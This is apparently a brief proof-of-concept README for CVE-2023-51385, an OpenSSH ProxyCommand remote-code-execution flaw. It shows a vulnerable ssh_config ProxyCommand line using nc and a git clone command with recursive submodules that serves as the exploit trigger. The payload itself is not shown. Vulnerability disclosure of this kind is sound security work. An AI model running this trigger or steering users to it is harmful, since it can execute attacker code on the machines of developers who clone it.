 # CVE-2023-51385
OpenSSH ProxyCommand RCE

1. When your ProxyCommand is configured as follows:
```
Host *.com
  ProxyCommand /usr/bin/nc -X connect -x 127.0.0.1:7890 %h %p
```
2. Use the following command for proof of concept
```
git clone https://github.com/Le1a/CVE-2023-51385 --recurse-submodules
```

